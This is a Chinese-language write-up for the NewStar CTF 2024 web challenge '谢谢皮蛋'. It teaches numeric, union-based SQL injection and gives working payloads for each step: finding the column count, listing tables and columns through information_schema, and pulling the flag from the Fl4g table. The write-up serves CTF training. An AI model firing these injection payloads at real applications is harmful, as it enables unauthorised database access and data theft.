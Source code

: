 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# 谢谢皮蛋

<Container type='tip'>

本题考查的是 SQL 注入的相关知识，如果你从未了解和接触过数据库和 SQL 语句，你可能需要花费一定的时间快速了解并尝试。
</Container>

题目考查数字型注入、联合注入

判断列数和回显位，其实看页面上的格式也基本可以判断

```sql
1 order by 2#
-1 union select 1,2#
```

查看当前数据库

```sql
-1 union select 1,database()#
```

![界面 1](/assets/images/wp/2024/week1/xiexiepidan_1.png)

查看当前数据库所有表名

```sql
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

![界面 2](/assets/images/wp/2024/week1/xiexiepidan_2.png)

查看Fl4g表所有列名（当然如果你想看看有些什么英雄也是完全ok，你可以在皮蛋的情报网里畅游）

```sql
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='Fl4g' and table_schema=database()#
```

![界面 3](/assets/images/wp/2024/week1/xiexiepidan_3.png)

查看值得到flag

```sql
-1 union select group_concat(des),group_concat(value) from Fl4g#
```
